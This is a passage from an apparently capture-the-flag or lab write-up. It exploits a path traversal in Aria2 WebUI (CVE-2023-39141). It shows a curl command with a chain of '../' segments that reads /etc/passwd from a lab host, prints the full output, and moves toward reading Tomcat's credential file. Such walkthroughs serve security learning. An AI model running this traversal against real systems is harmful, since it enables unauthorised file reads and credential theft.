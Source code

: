 Then, maybe can we find something about **Aria2 WebUI** ? Well, the results were fast as by simply looking for vulnerabilities, the third link on the search page directs us to a [PoC of a Path Traversal vulnerability on Aria2 WebUI](https://gist.github.com/JafarAkhondali/528fe6c548b78f454911fb866b23f66e) (CVE-2023-39141), allowing us to read any file that the `www` user can read.

Let’s see if it also works on our case :

```shell
$ curl --path-as-is http://10.10.71.124:8888/../../../../../../../../.
./../../../../../../../../../../../etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
systemd-timesync:x:102:104:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:106::/nonexistent:/usr/sbin/nologin
syslog:x:104:110::/home/syslog:/usr/sbin/nologin
_apt:x:105:65534::/nonexistent:/usr/sbin/nologin
tss:x:106:111:TPM software stack,,,:/var/lib/tpm:/bin/false
uuidd:x:107:112::/run/uuidd:/usr/sbin/nologin
tcpdump:x:108:113::/nonexistent:/usr/sbin/nologin
sshd:x:109:65534::/run/sshd:/usr/sbin/nologin
landscape:x:110:115::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:111:1::/var/cache/pollinate:/bin/false
fwupd-refresh:x:112:116:fwupd-refresh user,,,:/run/systemd:/usr/sbin/nologin
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
lxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false
mysql:x:113:122:MySQL Server,,,:/nonexistent:/bin/false
tomcat:x:1002:1002::/opt/tomcat:/bin/false
orville:x:1003:1003::/home/orville:/bin/bash
wilbur:x:1004:1004::/home/wilbur:/bin/bash
```

Indeed, it does work ! From this output, we see three *important* users : `orville`, `wilbur` and `tomcat` !

While we cannot access orville nor wilbur’s home folder, we can access `/opt/tomcat`. What are the interesting files to look for regarding tomcat ? All of them are in its `/conf` folder, the one we want to check is `tomcat-users.xml` :
